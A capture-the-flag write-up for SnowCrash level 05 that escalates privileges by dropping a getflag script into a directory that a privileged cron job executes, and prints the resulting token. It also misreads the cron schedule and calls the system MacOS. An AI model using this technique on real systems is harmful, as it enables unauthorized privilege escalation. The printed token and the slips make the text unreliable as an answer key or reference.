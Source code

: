 # Level 05

## Vulnerability
Privilege escalation, cron

## Context
When we ssh log in directly to level05, we see the message ```You have new mail.```

## Solution
Lets investigate the mail hint. Cron on MacOS saves mail to /var/mail/{user}.
```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
User flag05 informs us they set up a cron job to run a script /usr/sbin/openarenaserver every 30 seconds.

Lets have a look at the script.
```
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```
We see this script is run with user flag05 permissions. Unfortunately I don't have permission to edit this file (and have it call getflag). So lets investigate what this script does.
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
This script will run all files in /opt/openarenaserver in a bash shell.
Thus we should create a bash script to call getflag in /opt/openarenaserver/.
```
level05@SnowCrash:~$ echo "getflag > /dev/shm/flag" > /opt/openarenaserver/getflag.sh
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/getflag.sh
```
Wait a minute... and...
```
level05@SnowCrash:~$ cat /dev/shm/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
